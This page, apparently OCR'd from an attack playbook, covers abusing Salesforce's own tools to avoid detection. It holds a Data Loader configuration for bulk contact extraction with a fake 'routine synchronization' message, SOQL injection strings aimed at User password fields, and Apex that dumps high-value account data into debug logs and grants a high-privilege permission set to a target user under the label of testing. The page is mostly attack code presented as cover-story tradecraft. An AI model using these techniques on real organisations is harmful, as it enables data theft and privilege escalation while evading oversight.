 **Objective**: Using authorized tools and features for malicious purposes to avoid detection.

**Data Loader Abuse**:
```python
def abuse_data_loader():
    """Use Data Loader for bulk data extraction"""
    # Configure Data Loader for extraction
    config = {
        'sfdc.endpoint': 'https://instance.salesforce.com',
        'sfdc.username': 'legitimate_user@company.com',
        'sfdc.password': 'password_with_token',
        'process.operation': 'extract',
        'process.mappingFile': 'contact_mapping.sdl',
        'dataAccess.type': 'csvRead',
        'dataAccess.name': 'contacts_extract.csv'
    }
    
    # Extract appears as routine data maintenance
    print("Performing routine data synchronization...")
    # Data Loader extraction process
```

**Workbench Exploitation**:
```javascript
// Use Workbench for SOQL injection testing disguised as data analysis
const malicious_queries = [
    "SELECT Id, Name FROM Account WHERE Name = 'x' UNION SELECT Id, Password__c FROM User--",
    "SELECT Id FROM Contact WHERE Email = 'test' OR (SELECT COUNT() FROM User WHERE Profile.Name = 'System Administrator') > 0--"
];

// Execute via Workbench query interface
malicious_queries.forEach(query => {
    console.log("Executing data analysis query:", query);
    // Execute through Workbench UI
});
```

**Developer Console Abuse**:
```apex
// Execute malicious code via Developer Console anonymous blocks
// Appears as routine development/debugging activity

// Data exfiltration disguised as debugging
List<Account> accounts = [SELECT Id, Name, AnnualRevenue FROM Account WHERE AnnualRevenue > 1000000];
System.debug('High value accounts analysis:');
for (Account a : accounts) {
    System.debug('Account: ' + a.Name + ' Revenue: ' + a.AnnualRevenue);
    // Data captured in debug logs for extraction
}

// Privilege escalation disguised as testing
User testUser = [SELECT Id FROM User WHERE Username = 'target@company.com'];
PermissionSetAssignment psa = new PermissionSetAssignment(
    PermissionSetId = 'HIGH_PRIVILEGE_PERMISSION_SET_ID',
    AssigneeId = testUser.Id
);
insert psa;
System.debug('Test permission assignment completed');
```
